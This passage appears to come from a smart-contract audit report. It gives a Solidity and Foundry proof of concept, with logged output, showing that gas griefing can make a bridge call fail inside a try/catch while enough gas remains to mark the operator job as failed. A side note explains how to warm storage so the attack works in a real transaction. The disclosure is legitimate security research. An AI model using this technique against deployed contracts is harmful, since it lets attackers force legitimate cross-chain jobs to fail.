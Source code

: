 ```solidity

    Bridge bridge = new Bridge();
    event GasLeftAfterFail(uint left);

    function entryPoint() public {

        console2.log("Gas left before call: ", gasleft());

        bytes32 hash = 0x987744358512a04274ccfb3d9649da3c116cd6b19c535e633ef8529a80cb06a0;

        try this.intermediate(){
        }catch{
            // check out how much gas is left after the call to the bridge failed
            console2.log("Gas left after failure: ", gasleft());
            // simulate operations done after failure
            _failedJobs[hash] = true;
            emit FailedOperatorJob(hash);
        }
        ++_inboundMessageCounter;
        console2.log("Gas left at end: ", gasleft());

    }

    function intermediate() public{
        bridge.bridgeCall();
    }
}


contract Bridge{
    event Done(uint gasLeft);

    uint256[] myArr;

    function bridgeCall() public {
        for(uint i =1; i <= 100; i++){
            myArr.push(i);
        }
        // this line would never be reached, we'll be out of gas beforehand
        emit Done(gasleft());
    }
}

```

Output of PoC:

      Gas left before call:  999772
      Gas left after failure:  30672
      Gas left at end:  1628

Side note: due to some bug in forge `_inboundMessageCounter` would be considered warm even though it's not necessarily the case. However in a real world scenario we can warm it up if the selected operator is a contract and we'er using another operator contract to execute a job in the same tx beforehand.
